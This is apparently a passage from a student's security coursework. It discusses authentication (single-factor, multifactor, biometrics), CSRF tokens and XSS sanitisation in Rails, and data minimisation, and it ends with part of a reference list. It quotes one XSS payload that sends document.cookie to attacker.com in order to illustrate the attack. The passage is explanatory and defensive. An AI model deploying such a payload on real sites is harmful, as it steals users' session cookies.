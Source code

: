 8. 2018, Membermouse, _What is the Difference between Onsite and Offsite Payment Methods_, viewed 28/10/2021, <https://support.membermouse.com/support/solutions/articles/9000051604-what-is-the-difference-between-onsite-and-offsite-payment-methods->
9. Kadlec, T., 2017, SNYK, _The MongoDB hack and the importance of secure defaults_, viewed 26/10/2021, <https://snyk.io/blog/mongodb-hack-and-secure-defaults/>
10. Imperva, _Social Engineering_, viewed 30/10/2021, <https://www.imperva.com/learn/application-security/social-engineering-attack/>
11. IT Governance, _Social Engineering Attacks_, viewed 30/10/2021, <https://www.itgovernance.co.uk/social-engineering-attacks>

&nbsp;  
&nbsp;

# Q7 Protecting Information and Data (_further discussion on the methods_)

&nbsp;

This question connects nicely with the discussion of system security requirements, so some further summaries on the specific methods is appropriate. For instance, User Authority could be implemented with Single Factor Authentication (SFA) for a user_name and password combination, allowing the user to access their data and perform their permitted activity. Multifactor Authentication (MFA) could be utilised where additional parameters for access are required, noting that applications such as banking applications may request not only a username and password, but also a separate code to validate a transaction.

It can be noted that banks have grown their authentication mechanisms to include biometrics, with fingerprint scanning on smart phones (1), but it is noted that not all applications will benefit from this pursuit, particularly if the application is expected to operate on devices without the in-built ability to perform fingerprint recognition.

There is also the concern of Cross Site Request Forgery (CSRF), which means that authentication should not just be supported for user credentials, but also ensuring that the source of HTTP requests is recognised, such as through the use of authenticity tokens (2), which Rails frameworks support (2)(3). Rails also supports methods to sanitize data in order to reduce Cross Site Scripting (XSS) attacks, where malicious code is inserted into web requests and activated via response, or via implanting into databases (3).

```JavaScript
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

_Source (3), demonstrating an XSS attack option to gain access to cookie data_

Front-end user-interface validations can manage some of these inputs, however they can be more readily bypassed (4) meaning that they are suitable for protecting against user error inputs, but not against malicious threat actors, hence the need to employ those suitable back-end framework securities (3).

It might also be worth applying the access control 'need-to-know' philosophy (5) to the application itself, whereupon only minimal amounts of data are collected and stored from the users. For instance, geolocation tracking is perhaps not necessary for the function of the application, and a decision to not store this data can be, in this author's opinion, an ethical decision, and one that mitigates some risk of personal information leaks, should a data breach occur.
